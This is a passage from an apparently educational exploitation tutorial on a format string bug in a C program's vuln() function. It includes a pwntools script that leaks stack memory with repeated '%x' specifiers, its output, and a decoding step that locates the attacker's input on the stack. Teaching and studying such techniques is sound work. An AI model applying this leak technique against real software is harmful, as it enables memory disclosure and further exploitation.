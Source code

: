 ```c

int main(int argc, char **argv) {
  vuln(argv[1]);
}

```

Let's try to apply some of the knowledge we gained from above. Let's focus on
the line `printf(s)` in function `vuln()`. The `s` argument is a
value that we (as the attacker) control. Further, because it is the first
argument to `printf`, `s` is treated as a format string by `printf`. In
short, this looks like a format string vulnerability.

To confirm, let's write out a pwntools script that provides the binary with a
format string that prints out values on the stack:

```python
from pwn import *

context.clear(arch="i386")

p = process("./vuln")
p.sendline('aaaa' + ' %x'*15)
p.interactive()
```

We should see output similar to the following:

```
aaaa 40 f7fc25a0 0 f7ffd000 f7ffd918 ffffd280 ffffd374 0 ffffd314 f7fc2000 61616161 20782520 25207825 78252078 20782520
```

We can take the end of this sequence of hex characters and write code to
interpret these values as ascii as follows:

```python
from pwn import *

print unhex("61616161 20782520 25207825 78252078 20782520".replace(' ',''))
```

When run, this code will give us:

```
aaaa x% % x%x% x x%
```

If we account for transposition due to alignment and endianness (remember that
we are telling `printf` to treat successive sets of four bytes as unsigned
integers), this string looks like part of our input. In other words, we
managed to leak enough memory to find our own input string on the stack!
Specifically, the 11th `%x` specifier printed out the start of our input
string.

Let's clean this code up just a bit, using some additional features of `printf`, to only
print out the first four bytes of our input string:
